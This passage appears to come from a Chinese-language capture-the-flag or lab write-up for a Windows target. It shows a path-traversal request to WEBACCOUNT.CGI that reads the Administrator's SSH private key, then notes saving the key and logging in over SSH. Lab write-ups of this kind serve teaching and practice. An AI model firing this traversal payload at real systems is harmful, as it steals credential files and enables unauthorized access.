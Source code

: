 成功读取Viewer用户私钥

```
http://192.168.220.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F../Users/Administrator/.ssh/id_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=
```

![image-20250310130839545](./PG_win.assets/image-20250310130839545.png)

保存到本机

![image-20250310131149008](./PG_win.assets/image-20250310131149008.png)

使用秘钥ssh登录windows（一定一定要修改私钥权限为600
